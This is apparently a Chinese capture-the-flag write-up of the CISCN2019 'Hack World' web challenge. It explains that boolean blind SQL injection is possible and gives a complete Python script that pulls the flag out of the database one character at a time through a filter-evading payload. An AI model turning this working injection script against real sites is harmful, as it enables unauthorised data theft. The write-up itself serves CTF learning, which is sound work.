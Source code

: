 # [CISCN2019 华北赛区 Day2 Web1]Hack World

## 一、题目信息

Hint：flag{} 里为 uuid。

![image-20211020092850957](https://i.loli.net/2021/10/20/gem7tSQ6UM148Hp.png)



## 二、注入测试

1. 发现可以进行布尔盲注

![image-20211020101409129](https://i.loli.net/2021/10/20/Psxe728ZSDwvbfk.png)



2. 注入获取数据

```
user: root@localhost
database: ctftraining
```



3. 过滤了较多关键词，但发现存在flag表和flag列



4. 使用脚本自动盲注flag

```python
# -*- coding: UTF-8 -*-
'''
Date: 2021-10-20 11:05:59
'''
import requests
import time
url = 'http://8c833d8c-a2bd-4d7a-b0e1-a3aaecb99737.node4.buuoj.cn:81/index.php'
flag=""
for x in range(1,43):
    l = 32
    r = 126
    while r > l:
        mid = int((l+r+1) / 2)
        x = str(x)
        y = str(mid)
        id = {"id":'if(ascii(substr((select(flag)from(flag)),'+x+',1))>='+y+',1,0)'}
        response = requests.post(url=url,data=id)
        if "Hello" in response.text:
            l = mid
        else:
            r = mid-1
        time.sleep(0.03)
    flag+=(chr(int(r)))
    print(chr(int(r)))
print(flag)
```

Get Flag!

